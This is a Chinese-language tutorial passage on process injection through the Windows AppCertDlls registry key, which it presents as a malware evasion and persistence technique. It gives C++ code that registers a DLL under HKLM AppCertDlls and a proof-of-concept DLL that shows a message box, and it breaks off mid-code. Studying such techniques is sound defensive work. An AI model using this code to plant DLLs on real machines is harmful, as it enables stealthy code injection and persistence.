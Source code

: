 > 进程注入是一种广泛应用于恶意软件和无文件攻击中的逃避技术，这意味着可以将自定义代码运行在另一个进程的地址空间内。进程注入提高了隐蔽性，也实现了持久化.

### 进程注入之AppCertDlls注册表项

原理:

> 如果有进程使用了CreateProcess、CreateProcessAsUser、CreateProcessWithLoginW、CreateProcessWithTokenW或WinExec函数，那么此进程会获取HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SessionManager\AppCertDlls注册表项，此项下的dll都会加载到此进程。

测试:

使用[代码](https://blog.csdn.net/qq_36374896/article/details/107005578)快速创建 `AppCertDlls` 项:

```cpp
// Project1.exe
#include <iostream> 
#include <Windows.h> 
using namespace std;
 
int test()
{
	DWORD dwDisposition;
	HKEY hKey;
	const char path[] = "C:\\dll.dll";
	RegCreateKeyExA(HKEY_LOCAL_MACHINE,"SYSTEM\\CurrentControlSet\\Control\\Session Manager\\AppCertDlls", 0, NULL, 0, KEY_WRITE, NULL, &hKey, &dwDisposition);
	RegSetValueExA(hKey, "Default", 0, REG_SZ, (BYTE*)path, (1 + ::lstrlenA(path)));
	return 0;
}
 
int main()
{
	test();
	//system("pause");
	return 0;
}
```

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
// dll.dll
#include "stdafx.h"
#include "pch.h"
#include <windows.h>
BOOL TestMutex()
{
	HANDLE hMutex = CreateMutexA(NULL, false, "myself");
	if (GetLastError() == ERROR_ALREADY_EXISTS)
	{
		CloseHandle(hMutex);
		return 0;
	}
	return 1;
}
 
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:  //进程创建执行
		if (TestMutex() == 0)
			return TRUE;
		MessageBoxA(0, "hello qianxiao996", "AppCert", 0);
	case DLL_THREAD_ATTACH:  //进=线程创建执行
	case DLL_THREAD_DETACH:  //进程结束执行
 	case DLL_PROCESS_DETACH: //线程结束执行
```